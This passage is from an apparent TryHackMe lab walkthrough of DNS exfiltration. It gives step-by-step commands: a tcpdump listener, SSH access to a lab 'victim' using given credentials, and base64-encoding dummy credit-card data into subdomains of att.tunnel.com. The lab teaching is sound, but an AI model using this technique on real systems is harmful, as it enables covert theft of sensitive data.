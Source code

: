 In order to receive any DNS request, we need to capture the network traffic for any incoming UDP/53 packets using the tcpdump tool.

CapturingDNSrequests on the Attacker Machine

```markup
thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v 
tcpdump: listening on eth0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Once the attacker machine is ready, we can move to the next step which is to connect to our victim2 through SSH, which could be done from the Jump Box using the following credentials: thm:tryhackme.

Connect to Victim 2 viaSSHClient from JumpBox

```markup
thm@jump-box$ ssh thm@victim2.thm.com
```

Or from the AttackBox machine using the 10.10.39.16 and port 2122 as follows,

Connect to Victim 2 viaSSHClient from AttackBox

```markup
root@AttackBox$ ssh thm@10.10.39.16 -p 2122
```

On the victim2 machine, there is a task9/credit.txt file with dummy data.

Checking the content of the creds.txt file

```markup
thm@victim2$ cat task9/credit.txt
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
```

In order to send the content of a file, we need to convert it into a string representation which could be done using any encoding representation such as Base64, Hex, Binary, etc. In our case, we encode the file using Base64 as follows,

Encoding the Content of the credit.txt File

```markup
thm@victim2$ cat task9/credit.txt | base64
TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==
```

Now that we have the Base64 representation, we need to split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name. Let's show both ways starting with splitting for multiple DNS requests.

Splitting the content into multipleDNSrequests

```markup
thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/' 
TmFtZTogVEhNLXVzZX.att.tunnel.com
IKQWRkcmVzczogMTIz.att.tunnel.com
NCBJbnRlcm5ldCwgVE.att.tunnel.com
hNCkNyZWRpdCBDYXJk.att.tunnel.com
OiAxMjM0LTEyMzQtMT.att.tunnel.com
IzNC0xMjM0CkV4cGly.att.tunnel.com
ZTogMDUvMDUvMjAyMg.att.tunnel.com
pDb2RlOiAxMzM3Cg==.att.tunnel.com
```
